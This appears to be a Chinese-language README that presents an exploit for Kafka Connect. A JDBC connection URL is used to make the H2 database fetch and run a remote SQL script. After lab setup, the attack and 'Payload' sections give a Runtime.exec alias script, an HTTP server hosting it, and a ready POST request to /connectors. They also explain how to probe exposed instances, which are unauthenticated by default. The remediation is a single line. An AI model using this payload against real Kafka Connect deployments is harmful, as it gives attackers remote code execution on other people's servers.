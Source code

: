 
# JDBC 反序列化造成kafka Connect任意代码执行
## 前情
日常吃瓜，刷到kafka爆出RCE，为其Connect框架存在JNDI注入，如下：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out.png)
查看相应解析，发现只是简单修改了某项配置：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927162901607.png)
JAAS是java的认证与授权机制，Kakfa支持使用JNDI登陆模块进行登陆：
![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163013645.png)
该漏洞发生于客户端与服务端进行初次连接的时候，向服务端发送用户的提供地址，伪造一个恶意的JNDI服务，从而造成命令执行。
 
由此推测作者应该是翻kafka的官方文档，查找API、配置等，刚好发现该配置支持JNDI，判断JNDI URL是否可控，发现可控，成功挖掘0day。

然后沿着作者的思路，尝试翻看官方文档，是否存在类似配置，最终查找了大半天并未发现。

然后开始思考，kafka Connect框架的作用是用来从其他数据库导入数据到kafka，也可以将kafka中的数据导出到其他数据库，那么将其他数据库的数据导入kafka时，是否可以控制数据库连接地址的URL，造成JDBC 反序列化，从而命令执行呢？

一开始发现kafka的Connect只提供了最基本的Connector，没有提供从数据库读取信息到kafka的具体实现，再次搜索相关信息，发现JDBC具体实现由Confluent公司提供，这是一个很常见的功能，为什么kafka不提供呢？我觉得原因有亮点：
- 他作为框架，只提供了基础架构，而JDBC虽然常用，但是不好持续维护；
- JDBC由kafka的商业化母公司Confluent提供，估计是为了以后捞钱；

## 搭建环境
从官网下载最新的kafka：
![image-20230804211601546](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163106007.png)
解压：
 ![image-20230804211732233](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163141985.png)
配置kafka：
```
$ vim config/server.properties
```
修改server.properties 文件：

```
...
//添加这一句
listeners=PLAINTEXT://:9092

...
//还有这个
zookeeper.connect=localhost:2181

...
```
启动zookeeper：
```
$ bin/zookeeper-server-start.sh config/zookeeper.properties
```

打开一个终端运行kafka：


```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ bin/kafka-server-start.sh config/server.properties
```

接着配置kafka Connect，先介绍一下kafka Connect：
kafka Connect是一个框架，提供了从其他数据库获取信息到kafka，或者从kafka导出信息到数据库的能力，他并没有具体的实现，具体的实现由Confluent公司提供，他是kafka的商业化母公司，对于数据库的具体实现为JDBC Connector。
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163159105.png)
先下载JDBC Connector从该URL：https://www.confluent.io/hub/confluentinc/kafka-connect-jdbc：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163223339.png)
打开一个新终端，在kafka的根目录创建一个connector-libs目录，然后解压刚刚下载的zip包，移动到connector-libs目录：

```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ mkdir connector-libs 
$ unzip ~/Downloads/confluentinc-kafka-connect-jdbc-10.7.3.zip
$ mv ./confluentinc-kafka-connect-jdbc-10.7.3/lib connector-libs/
```

本示例使用h2作为数据库源进行演示，h2是java语言开发的嵌入式数据库，SpringBoot就使用了H2数据库，同时他也是最容易执行命令的，其他数据库也有同样的效果，不过会比较麻烦。
下载H2 数据引擎jar包, 将它移动到connector-libs目录：
 ![image-20230804213805768](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163253546.png)
```
$ mv ~/Downloads/h2-1.4.199.jar ~/Dev/kafka_2.13-3.5.1/connector-libs/lib/
```
配置 connect-standalone.properties, 添加 plugin.path熟悉：

```
$ vim config/connect-standalone.properties
```

添加下面一行：

```
plugin.path=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home,/Users/zeanhike/Dev/kafka_2.13-3.5.1/connector-libs/lib
```

将 h2-1.4.199.jar 设置 CLASSPATH 环境变量（该处卡了一天，一开始并没有想到要将该jar导出到CLASSPATH，然后一直报错，找不到合适的数据库连接池，然后找到StackOver社区，才发现要导出到CLASSPATH）
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163315051.png)
启动 Kafka Connect：


```
$ bin/connect-standalone.sh config/connect-standalone.properties 
```


## 攻击
创建一个SQL并将它保存为poc.sql：

```
CREATE ALIAS EXEC_CMD AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "zeanhike";}';CALL EXEC_CMD ('open -a Calculator.app')
```


启动HTTP 服务并且将poc.sql文件放到http服务的根目录：

```
$ python3 -m http.server 1022
```

然后发送如下包：
```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:1022/poc.sql'",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```
 
 
## 不足
● 还未尝试其他数据库，比如MySQL、Oracle等
● 未做成自动化检测工具、并集成其他数据库
● 需要kafka Connect存在同时使用了JDBC Connector、且未开启鉴权（默认不开启）
## Payload
探测kafka Connect是否存在：

 ```
curl http://hostname:port/connectors
```

然后根据返回的关键字判断使用了什么数据库（不准确，可以盲打），然后发送以下攻击包：

```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "恶意数据库的连接URL",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```


<video src="./屏幕录制2023-08-04 22.08.06.mov"></video>



漏洞利用方式和效果由于不同的数据库而不同，该项目集结了大部分的JDBC攻击https://github.com/su18/JDBC-Attack
MySQL的利用需要用到MySQL Fake Server，H2的利用仅仅需要一个sql语句或者不用都行。
## 修复
在JdbcSourceConnector类上，过滤掉恶意数据库连接URL。
